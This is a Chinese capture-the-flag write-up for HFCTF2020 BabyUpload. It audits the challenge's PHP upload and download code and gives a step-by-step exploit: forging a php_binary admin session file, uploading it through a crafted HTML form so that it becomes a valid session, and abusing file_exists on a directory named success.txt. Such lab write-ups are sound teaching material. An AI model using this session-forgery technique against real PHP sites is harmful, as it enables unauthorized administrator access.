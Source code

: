 # \[HFCTF2020]BabyUpload

## \[HFCTF2020]BabyUpload

## 考点

* PHP session伪造
* PHP session反序列化
* PHP session特性
* file\_exists特性
* 代码审计

## wp

前面几行定义了初始环境，session文件存储位置`/var/babyctf/`

```php
error_reporting(0);
session_save_path("/var/babyctf/");
session_start();
require_once "/flag";
highlight_file(__FILE__);
```

然后说明了如何获取flag，要让session中的`username`字段是`admin`，并且`/var/babyctf/success.txt`文件存在，才会给出flag。并且一开始的`$_SESSION['username']`为`guest`

```php
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
else{
    $_SESSION['username'] ='guest';
}
```

然后说明了对输入的操作，`filter_input(input_type, variable, filter, options)`函数从脚本外部获取输入，并进行过滤，这里是指获取POST的参数`direction`和`attr`。

如果`attr`为`private`，则`dir_path`为`/var/babyctf/private/guest`

否则为`/var/babyctf/$attr`

```php
$direction = filter_input(INPUT_POST, 'direction');
$attr = filter_input(INPUT_POST, 'attr');
$dir_path = "/var/babyctf/".$attr;
if($attr==="private"){
    $dir_path .= "/".$_SESSION['username'];
}
```

最后是两种模式`upload`和`download`的处理逻辑

upload的逻辑

假设上传的文件名字是`test.txt`，那`file_path`就是`/var/babyctf/$attr/test.txt_上传文件内容的sha256`。并且`file_path`中不包含`../`和`..\\`。然后创建`/var/babyctf/$attr`文件夹，将上传的文件保存到`file_path`

```php
if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
	throw new RuntimeException('invalid upload');
}
$file_path = $dir_path."/".$_FILES['up_file']['name'];
$file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
	throw new RuntimeException('invalid file path');
}
@mkdir($dir_path, 0700, TRUE);
if(move_uploaded_file($_FILES['up_file']['tmp_name'],$file_path)){
	$upload_result = "uploaded";
}else{
	throw new RuntimeException('error while saving');
}
```

download的逻辑

获取POST的`filename`参数，并用`basename`函数返回`filename`中的文件名部分，然后和`/var/babyctf/$attr`拼接赋值给`file_path`，且`file_path`也不能包含`../`和`..\\`。后面就是返回这个文件了。

```php
$filename = basename(filter_input(INPUT_POST, 'filename'));
$file_path = $dir_path."/".$filename;
if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
	throw new RuntimeException('invalid file path');
}
if(!file_exists($file_path)) {
	throw new RuntimeException('file not exist');
}
header('Content-Type: application/force-download');
header('Content-Length: '.filesize($file_path));
header('Content-Disposition: attachment; filename="'.substr($filename, 0, -65).'"');
if(readfile($file_path)){
	$download_result = "downloaded";
}else{
	throw new RuntimeException('error while saving');
}
```

大概思路就是要先进行session伪造，把自己变成admin，然后上传一个success.txt就可以了

可以先看一下自己的session文件，看一下是用的什么序列化方式。POST下面的内容

```
direction=download&filename=sess_5f5a2aee2ccc219dbea0f78b5001d600
```

得到结果 `usernames:5:"guest";`，这种session序列化的方式是`php_binary`，然后就可以生成session文件

```php
<?php
ini_set('session.serialize_handler', 'php_binary');
session_save_path("./");
session_start();
$_SESSION['username'] = 'admin';
```

要注意的是不能直接用记事本改，PHP生成的session文件的要比记事本多个`08`

![](../../.gitbook/assets/image-20210128185056422.png)

![](../../.gitbook/assets/image-20210128185205142.png)



下面找一下怎么伪造，在`upload`处有一个文件名的拼接。如果POST传`attr`为空，然后上传的文件名是`sess`，内容是上述的session文件，那么其sha256可以这样生成

```
php -r "echo hash_file('sha256', 'sess');"
```

结果是`432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`

那最后的`file_path`就是`/var/babyctf//sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`

而本题session存储的位置就是`/var/babyctf/`，改一下PHPSESSID就可以伪造admin了

```php
$attr = filter_input(INPUT_POST, 'attr');
$dir_path = "/var/babyctf/".$attr;
$file_path = $dir_path."/".$_FILES['up_file']['name'];
$file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
```

在本地写个html，注意`name`要和题目中的POST参数对应，选择刚刚生成的session文件，然后上传

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://7d1fb450-ca22-4aa7-b61d-ee3f3c3b9a9a.node3.buuoj.cn/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="direction" value="upload" />
    <input type="file" name="up_file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

![](../../.gitbook/assets/image-20210128185632347.png)

然后去用`download`验证是否上传成功，成功上传，将PHPSESSID改成`432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`就成功伪造了admin

![](../../.gitbook/assets/image-20210128185819279.png)



接下来是如何创建`success.txt`，注意这里是用`file_exists`判断文件是否存在的，**file\_exists不仅可以判断文件，也可以判断目录**

```php
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
```

虽然本题文件名不完全可控，但是路径是完全可控的，如果在上传中，让`attr`为`success.txt`，那最后的`filename`就是

```
/var/babyctf/success.txt/sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4
```

`file_exists('/var/babyctf/success.txt')`肯定是会返回True的，再用admin的身份访问index就可以了。

### 流程梳理

1.生成session文件，并把文件名改成`sess`

```php
<?php
ini_set('session.serialize_handler', 'php_binary');
session_save_path("./");
session_start();
$_SESSION['username'] = 'admin';
```

2.获取`sess`的sha256

![](../../.gitbook/assets/image-20210128190817372.png)

3.新建html，让其中的`name`属性与源码中POST的参数对应，实现上传

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://7d1fb450-ca22-4aa7-b61d-ee3f3c3b9a9a.node3.buuoj.cn/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="direction" value="upload" />
	<input type="hidden" name="attr" value="success.txt" />
    <input type="file" name="up_file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

![](../../.gitbook/assets/image-20210128185632347.png)

4.POST传递`direction=download&filename=sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`判断是否上传成功

![](../../.gitbook/assets/image-20210128185819279.png)

5.修改PHPSESSID访问index

![](../../.gitbook/assets/image-20210128191040818.png)

## 小结

1. **file\_exists不仅可以判断文件，也可以判断目录**

